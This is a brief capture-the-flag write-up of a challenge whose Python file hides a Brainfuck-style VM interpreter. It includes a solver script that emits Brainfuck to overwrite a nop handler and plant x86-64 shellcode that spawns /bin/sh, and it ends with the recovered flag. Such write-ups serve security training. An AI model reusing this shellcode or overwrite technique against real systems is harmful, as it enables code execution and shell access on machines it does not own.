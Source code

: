 # Aall

We're given a python file which writes some data to a file then extacts a python program from b64 and runs it. After a lot of analysis and removing unicode chars,

I realised it's a VM interpreter.

Doing some more reversing of the program showed me it was a simple Brainfuck interpreter, with &gt; &lt; - + and ? \(nop\).

There's also a function \(unused\) to essentially execute shellcode.

The problem was then to simply overwrite the instruction for the 'nop' to the shellcode instruction,

and write shellcode in using brainfuck to modify the existing stack.

```python
sc = b"\x90\x90\x6A\x42\x58\xFE\xC4\x48\x99\x52\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5E\x49\x89\xD0\x49\x89\xD2\x0F\x05"
actual_nums = [5, 0, 1, 0, 138, 4, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 104, 116, 116, 112, 115, 58, 47, 47, 97, 97, 114, 111, 110, 101, 115, 97, 117, 46, 99, 111, 109, 47, 102, 105, 108, 101, 115, 47]
goal_nums = [0x25]
goal_nums.extend(list(sc))
print(list(zip(actual_nums,goal_nums)))
print('<'*(1469-1398),end='')
for a,g in zip(actual_nums,goal_nums):
    if a < g:
        print('+'*(g-a),end='')
    if a > g:
        print('-'*(a-g),end='')
    print('>',end='')
```

## flag{b1ng0!\_obl1g4t0ry-sh1tty-cust0m\_4rch\_ch4l-ftw}

